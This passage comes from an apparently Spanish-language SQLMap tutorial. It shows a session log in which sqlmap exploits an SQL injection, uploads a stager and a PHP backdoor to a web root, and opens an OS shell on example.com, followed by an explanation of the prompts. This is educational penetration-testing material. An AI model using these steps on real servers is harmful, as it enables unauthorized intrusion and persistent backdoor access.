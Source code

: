 ```shell-session
sqlmap resumed the following injection point(s) from stored session:
...SNIP...
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 4

do you want sqlmap to further try to provoke the full path disclosure? [Y/n] y

[18:06:07] [WARNING] unable to automatically retrieve the web server document root
what do you want to use for writable directory?
[1] common location(s) ('/var/www/, /var/www/html, /var/www/htdocs, /usr/local/apache2/htdocs, /usr/local/www/data, /var/apache2/htdocs, /var/www/nginx-default, /srv/www/htdocs') (default)
[2] custom location(s)
[3] custom directory list file
[4] brute force search
> 1

[18:06:09] [WARNING] unable to automatically parse any web server path
[18:06:09] [INFO] trying to upload the file stager on '/var/www/' via LIMIT 'LINES TERMINATED BY' method
[18:06:09] [WARNING] potential permission problems detected ('Permission denied')
[18:06:10] [WARNING] unable to upload the file stager on '/var/www/'
[18:06:10] [INFO] trying to upload the file stager on '/var/www/html/' via LIMIT 'LINES TERMINATED BY' method
[18:06:11] [INFO] the file stager has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpumgzr.php
[18:06:11] [INFO] the backdoor has been successfully uploaded on '/var/www/html/' - http://www.example.com/tmpbznbe.php
[18:06:11] [INFO] calling OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> ls -la

do you want to retrieve the command standard output? [Y/n/a] a

command standard output:
---
total 156
drwxrwxrwt 1 www-data www-data   4096 Nov 19 18:06 .
drwxr-xr-x 1 www-data www-data   4096 Nov 19 08:15 ..
-rw-rw-rw- 1 mysql    mysql       188 Nov 19 07:39 basic.php
...SNIP...
```

SQLMap nos preguntó primero por el tipo de lenguaje utilizado en este servidor remoto, que sabemos que es PHP. A continuación, nos preguntó por el directorio raíz web del servidor, y le pedimos a SQLMap que lo buscara automáticamente utilizando «ubicaciones comunes». Ambas opciones son las opciones predeterminadas y se habrían seleccionado automáticamente si hubiéramos añadido la opción «--batch» a SQLMap.
